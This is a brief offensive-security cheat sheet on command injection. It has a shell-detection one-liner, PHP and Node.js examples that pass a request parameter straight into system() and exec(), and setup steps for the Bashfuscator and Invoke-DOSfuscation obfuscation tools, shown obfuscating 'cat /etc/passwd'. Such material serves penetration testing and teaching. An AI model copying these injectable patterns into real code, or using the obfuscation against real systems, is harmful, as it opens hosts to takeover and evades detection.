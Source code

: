 # \</> Command Injections

To check if Powershell or CMD:

```powershell
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```

Example of vulnerable code for command injection:

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
?>
```

```javascript
app.get("/createfile", function(req, res){
    child_process.exec(`touch /tmp/${req.query.filename}.txt`);
})
```

## Automated

### Linux (Bashfuscator)

```bash
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
pip3 install setuptools==65
python3 setup.py install --user
```

To use:

```
cd ./bashfuscator/bin/
./bashfuscator -h
./bashfuscator -c 'cat /etc/passwd'
```

But to fine-tune:

```
./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

### Windows (DOSfuscation)

```powershell
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
```
